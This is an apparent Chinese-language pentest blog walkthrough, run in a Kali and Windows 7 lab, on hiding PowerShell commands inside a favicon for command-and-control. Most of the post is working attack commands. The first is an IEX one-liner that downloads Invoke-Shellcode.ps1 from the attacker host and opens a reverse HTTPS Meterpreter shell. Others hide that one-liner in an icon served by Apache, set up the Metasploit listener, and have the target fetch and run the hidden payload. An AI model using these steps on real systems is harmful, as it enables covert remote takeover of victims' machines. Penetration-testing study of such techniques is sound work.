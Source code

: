 ```yaml
---
title: command-and-control-images
layout: post
tags:
  - sec
  - hack
  - tools
  - bin
  - powershell
category: 
  - hack
  - sec
  - bin
  - c2
  - image
  - powershell
comments: true
share: true
description: 使用[脚本](http://rwnin.net/?p=35)将命令转化为图标，然后使用powershell执行
---
```


* TOC
{:toc}

使用[脚本](http://rwnin.net/?p=35)将命令转化为图标，然后使用powershell执行

<!--more-->

实验环境：

- kali(IP:192.168.222.140)
- win7


## 制作具有PS命令的txt文本

在kali机器下，制作具有PS命令的txt文本：

```bash
echo 'IEX((new-object net.webclient).downloadstring("http://192.168.222.140/Invoke-Shellcode.ps1"));Invoke-Shellcode -payload windows/meterpreter/reverse_https -LHOST 192.168.222.140 -LPORT 443 -force' > shellcode.txt
```

![Alt text](/img/tools/c2ico/1515077380044.png)

## 创作恶意图标

使用[create_favicon.py](https://github.com/et0x/C2)制作具有恶意命令的图片，改为ico文件，并将[Invoke-Shellcode.ps1](https://github.com/EmpireProject/Empire/blame/master/data/module_source/code_execution/Invoke-Shellcode.ps1)传到Web目录,：

```bash
root@kali:~/Desktop/C2-master# python create_favicon.py shellcode.txt evil.png

root@kali:~/Desktop/C2-master# mv evil.png /var/www/html/favicon.ico
 
root@kali:~/Desktop/C2-master# service apache2 start
```

![Alt text](/img/tools/c2ico/1515077486579.png)

## MSF监听

使用msf，根据`shellcode.txt`里的反向meterpreter进行反向监听：

```bash
msf > use exploit/multi/handler 

msf exploit(handler) > set payload windows/meterpreter/reverse_https
payload => windows/meterpreter/reverse_https

msf exploit(handler) > set LPORT 443
LPORT => 443

msf exploit(handler) > set LHOST 192.168.222.140
LHOST => 192.168.222.140
```

## 执行PS命令

在靶机win7上添加`readFavicon.ps1`模块，然后下载执行图标里的shellcode：

```bash
PS C:\Users\b404\Desktop> Import-Module .\readFavicon.ps1

PS C:\Users\b404\Desktop> Get-FaviconText -URL http://192.168.222.140/favicon.ic
o -WriteTo $env:TEMP
```

![Alt text](/img/tools/c2ico/1515077663343.png)


MSF返回Meterpreter：


![Alt text](/img/tools/c2ico/1515077774746.png)

## Refer

- [Command and Control – Images](https://pentestlab.blog/2018/01/02/command-and-control-images/amp/):https://pentestlab.blog/2018/01/02/command-and-control-images/amp/
